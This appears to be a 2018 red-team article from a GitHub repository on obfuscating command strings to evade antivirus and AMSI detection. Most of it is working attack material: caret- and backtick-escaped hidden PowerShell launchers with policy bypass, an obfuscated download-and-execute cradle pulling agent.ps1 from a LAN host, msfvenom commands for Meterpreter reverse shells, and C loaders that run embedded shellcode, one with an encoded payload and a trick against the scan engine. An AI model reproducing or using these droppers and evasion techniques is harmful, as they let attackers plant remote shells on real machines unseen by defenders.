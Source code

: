 <br />

# SIMPLE STRING OBFUSCATION TECHNICS

      This article contains a list of simple obfuscation technics that can be used into obfuscating system
      call's like (powershell.exe -EncodedCommand OR cmd.exe /c start /MIN) in one attempt to bypass AV's
      AMSI and DEP detection mecanisms, why? let assume we have crypted our shellcode with one AES master
      key, and the AV vendor can't read inside crypted sourcecode to determine if there actions are good or
      bad, in this ocasion the AV vendor starts to look for system call's that may reveal malicious actions.

![detection pic](http://i.cubeupload.com/pLllwr.jpg)


<br /><br /><br />

## batch obfuscation

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />

      cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode

---

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />

- using one batch local variable to serve as our **master key** (varObj)<br />
**file template.bat**<br />


      @echo off
      SET varObj=abcdefghijlmnopqrstuvxzkyW0123456789ABCDEFGHIJLMNOPQRSTUVXZKYW
      %varObj:~3,1%%varObj:~12,1%%varObj:~4,1%.exe /c %varObj:~15,1%%varObj:~14,1%%varObj:~26,1%%varObj:~5,1%%varObj:~17,1%%varObj:~18,1%%varObj:~8,1%%varObj:~5,1%%varObj:~11,1%%varObj:~11,1%.exe -nop -%varObj:~26,1%%varObj:~9,1%%varObj:~4,1%%varObj:~4,1%%varObj:~5,1%%varObj:~13,1% -%varObj:~41,1%%varObj:~22,1%%varObj:~5,1%%varObj:~3,1% %varObj:~38,1%%varObj:~25,1%%varObj:~15,1%%varObj:~1,0%%varObj:~18,1%%varObj:~18,1% -noni -%varObj:~5,1%%varObj:~13,1%%varObj:~3,1% $shellcode
      exit


- Description of varObj master_key:<br />
https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/pedro-Wandoelmo-key.md
      

---

<br /><br /><br />

## powershell obfuscation

- string command to obfuscate<br />
`powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **powershell escape caracter** `<br />

- string obfuscated<br />

      po`w`er`shel`l.ex`e -n`op -w`i`nd h`idd`en -Ex`e`c B`yp`a`ss -no`n`i -en`c $shellcode

---

- string command to obfuscate<br />
`powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.71/agent.ps1')`<br />
The above string can be obfuscated using **powershell escape caracters** ` and + <br />

- string obfuscated<br />

      $get = New-Object "N`et`Web`Cl`ie`nt"
      p`owe`r`she`l`l.exe `IE`X ($get).D`ow`n`loa`dSt`rin`g('h'+'t'+'tp'+':'+'//'+'192.168.1.71/agent.ps1')

---

<br /><br /><br />

## bash obfuscation

- encoding shellcode from **C** to **ANCII**

      \x8b\x5a\x00\x27\x0d\x0a  <-- C shellcode

      8b5a00270d0a              <-- ANCII shellcode


- build shellcode in **C** format

      msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.69 LPORT=666 -b '\x0a\x0d' -f c -o shellcode.txt

- **parsing** shellcode data

      # store parsed data into '$store' local var
      store=`cat shellcode.txt | grep -v '=' | tr -d ';' | tr -d '\"' | tr -d '\\' | tr -d 'x' | tr -d '\n'`

- **template.c**

      #include
      #include
      #include
      #include
      #include
      #include
      #include

      <stdio.h>
      <stdlib.h>
      <unistd.h>
      <string.h>
      <windows.h>
      <tchar.h>
      <stdlib.h>

      void exec_mycode(unsigned char *mycode)
      {
      int (*funct)();
         funct = (int (*)()) mycode;
         (int)(*funct)();
      }

      // return pointer to mycode
      unsigned char* decode_mycode(unsigned char *buffer, unsigned char *mycode, int size)
      {
      int j=0;
         mycode=malloc((size/2));
         int i=0;
      do
      {
      unsigned char temp[3]={0};
         sprintf((char*)temp,”%c%c”,buffer[i],buffer[i+1]);
         mycode[j] = strtoul(temp, NULL, 16);
         i+=2;
         j++;
      } while(i<size);
         return mycode;
      }
         int main (int argc, char **argv)
      {
         unsigned char *mycode;

      unsigned char buffer[]=
      "INSERT_SHELLCODE_HERE";

      int size = sizeof(buffer);
         mycode = decode_mycode(buffer,mycode,size);
         exec_mycode(mycode);
      }


<br />

- **embeded** parsed shellcode into **template.c**

      # inject shellcode into template.c using SED bash command
      sed -i "s/INSERT_SHELLCODE_HERE/$store/" template.c


- compiling template with **GCC**

      gcc template.c -o agent.exe

---


<br /><br /><br />

## bypass the scan engine (avet)

      This next tecnic writes a file to disk before executing shellcode into target ram ..

<br />

**template.c**<br />


      #include <stdio.h>
      #include <stdlib.h>
      #include <unistd.h>
      #include <string.h>
      #include <windows.h>
      #include <tchar.h>
      #include <stdlib.h>
      #include <strsafe.h>

      void exec_mycode(unsigned char *mycode)
      {
        int (*funct)();
        funct = (int (*)()) mycode;
        (int)(*funct)();
      }


      int main (int argc, char **argv)
      {
      /*
      msfvenom -p windows/meterpreter/reverse_https lhost=192.168.153.149 lport=443 -e x86/shikata_ga_nai -f c -a x86 --platform Windows
      */

      unsigned char buffer[]= 
      "\xda\xcc\xba\x6f\x33\x72\xc4\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
      "\x75\x31\x56\x18\x83\xc6\x04\x03\x56\x7b\xd1\x87\x38\x6b\x97"
      "\x68\xc1\x6b\xf8\xe1\x24\x5a\x38\x95\x2d\xcc\x88\xdd\x60\xe0"
      "\xe9\x88\xb7\xf5\xbc\x2b\x91\x9f\xbe\x78\xe1\xb5";
	
      /*
      Here is the bypass. A file is written, this bypasses the scan engine
      */
        HANDLE hFile;
	hFile= CreateFile(_T("hello.txt"), FILE_READ_DATA, FILE_SHARE_READ, NULL, OPEN_ALWAYS, 0, NULL);
	if (hFile == INVALID_HANDLE_VALUE) 
		exit(0);

	exec_mycode(buffer);
      }

---

<br /><br /><br />


**Author: @r00t-3xp10it**<br />
**Special Thanks to: @Wandoelmo Silva**<br />
# Suspicious Shell Activity (red team) @2018
